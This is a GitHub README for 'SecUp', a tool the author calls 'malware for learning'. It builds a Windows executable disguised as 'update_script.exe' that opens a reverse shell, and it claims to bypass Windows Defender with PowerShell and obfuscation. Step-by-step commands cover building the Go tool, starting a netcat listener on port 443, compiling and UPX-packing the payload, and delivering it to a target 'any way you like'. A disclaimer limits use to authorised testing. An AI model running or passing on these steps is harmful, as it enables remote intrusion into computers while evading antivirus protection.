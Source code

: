 # SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup and Execution<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build **SecUp.go**<br>
`go build SecUp.go`
3. Run **SecUp <LHOST>**<br>
`./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Open another terminal, and compile EXE<br>
`GOOS=windows go build -ldflags "-s -w" -trimpath update_script.go`<br>
`upx -9 update_script.exe`
6. Back at the SecUp terminal<br>
`Press ENTER to continue...`
7. Upload and execute `update_script.exe` to target any way you like<br>
8. Shellz! :)
<P></P>
<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>



https://user-images.githubusercontent.com/19762230/132001237-04ae01ae-102e-4070-9599-ad05128c3f73.mp4


